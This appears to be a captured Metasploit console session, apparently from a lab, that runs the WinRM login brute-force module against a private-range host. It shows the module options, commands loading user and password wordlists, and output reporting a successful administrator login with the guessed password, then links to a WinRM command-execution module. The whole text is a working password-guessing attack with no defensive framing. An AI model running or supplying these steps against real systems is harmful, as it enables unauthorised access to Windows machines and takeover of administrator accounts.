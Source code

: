 ```
msf5 auxiliary(scanner/winrm/winrm_login) > show options

Module options (auxiliary/scanner/winrm/winrm_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DOMAIN            WORKSTATION      yes       The domain to use for Windows authentification
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.0.20.77       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             5985             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   URI               /wsman           yes       The URI of the WinRM service
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts
   VHOST                              no        HTTP server virtual host

msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5 auxiliary(scanner/winrm/winrm_login) > set VERBOSE false
VERBOSE => false
```

```
msf5 auxiliary(scanner/winrm/winrm_login) > run

[+] 10.0.20.77:5985 - Login Successful: WORKSTATION\administrator:tinkerbell
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

[WinRM Command Runner](https://www.rapid7.com/db/modules/auxiliary/scanner/winrm/winrm_cmd/)
